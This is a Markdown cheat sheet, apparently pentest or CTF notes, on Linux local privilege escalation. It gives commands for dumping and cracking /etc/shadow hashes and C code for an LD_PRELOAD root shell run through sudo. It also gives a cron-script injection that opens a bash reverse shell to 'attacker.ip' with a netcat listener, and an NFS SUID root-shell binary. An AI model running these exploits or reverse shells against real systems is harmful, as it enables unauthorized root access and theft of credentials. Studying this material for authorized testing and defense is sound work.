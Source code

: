 #linux/LPE
#### Enumeration
* `hostname`
* `uname -a`
* `cat /proc/version`
* `cat /etc/issue`
* `ps -A`
* `ps axjf` - tree view
* `ps aux` - all processes
* `env`
* `id <username>`
* `cat /etc/passwd` - list of users
* `cat /etc/shadow` - password hashes
	* `unshadow /etc/passwd /etc/shadow > combined.txt`
	* `jonh --wordlist=/usr/share/wordlists/rockyou.txt combined.txt`
	   * Detect hash type in `/etc/shadow` using `grep ENCRYPT_METHOD /etc/login.defs`
	   * `hashcat -m 1800 -a 0 hash.txt /usr/share/wordlists/rockyou.txt` [[hashcat]]
    
* `history`
* `ifconfig`
* `ip route`
* `netstat -a` - all open ports, `netstat -at` or `netstat -au` - tcp/udp, `nestat -l` - listening mode
* `netstat -tp`: list connections with the service name and PID information
* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders
* `find / -perm -u=s -type f 2>/dev/null`: Find files with the SUID bit
##### Automated tools
- **LinPeas**: [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- **LinEnum:** [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)[](https://github.com/rebootuser/LinEnum)
- **LES (Linux Exploit Suggester):** [https://github.com/mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- **Linux Smart Enumeration:** [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- **Linux Priv Checker:** [https://github.com/linted/linuxprivchecker](https://github.com/linted/linuxprivchecker)

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
## psspy
Spy on running process to find passed function arguments like passwords
https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
#### Kernel exploits
* https://github.com/The-Z-Labs/linux-exploit-suggester
* https://www.cvedetails.com/
* https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
#### sudo
* run `sudo -l`
* Check binaries at https://gtfobins.github.io/

1. Check for LD_PRELOAD (with the env_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
	```c
#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
  
void _init() {  
unsetenv("LD_PRELOAD");  
setgid(0);  
setuid(0);  
system("/bin/bash");  
}
```
`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`
3. Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file
`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`
https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/
#### SUID
1. c will list files that have SUID or SGID bits set.
2. Check gtfobins
#### Capabilities
1. `getcap -r / 2>/dev/null`
2. Check gtfobins
#### Cron
1. `cat /etc/crontab`
2. Modify available cron script and add your code there: 
```bash
bash -i >& /dev/tcp/attacker.ip/6666 0>&1   
```
3. Listen on attacker machine: `nc -nlvp 6666`
#### PATH
 If we type “thm” to the command line, these are the locations Linux will look in for an executable called thm. The scenario below will give you a better idea of how this can be leveraged to increase our privilege level. As you will see, this depends entirely on the existing configuration of the target system, so be sure you can answer the questions below before trying this.
1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulnerability?
![[LPE Linux PATH Step 1.png]]
Find writable dirs:
`find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u`
![[LPE Linux PATH Step 2.png]]
![[LPE Linux PATH Step 3.png]]

#### [[NFS]]
List mountable devices `cat /etc/exports`

On attacker machine: 
`showmount -e <ip>`
`mount -o rw <ip>:/backups /tmp/bd`

Create executable with SUID set and run on attacker machine:
```c
int main(){
setgid(0);
setuid(0);
system("/bin/bash");
return 0;
}
```
## Local ports
Show ports in use:
```bash
ss -tnl

ss -tunlp` to find hidden ports
```
Display default service for each port in use:
```bash
ss -tl
```
Discover open ports and services:
```shell
netstat -tulpn | grep LISTEN
```
## Case 1. Bash
```bash
if [[ $DB_PASS == $USER_PASS ]]; then
	/usr/bin/echo "Password confirmed!"
else
	/usr/bin/echo "Password confirmation failed!"
exit 1
fi
```
This is due to the use of == inside [[ ]] in Bash , which performs pattern matching rather than
a direct string comparison; more on this can be found https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29
## Case 2. tar unarchive wildcard
https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com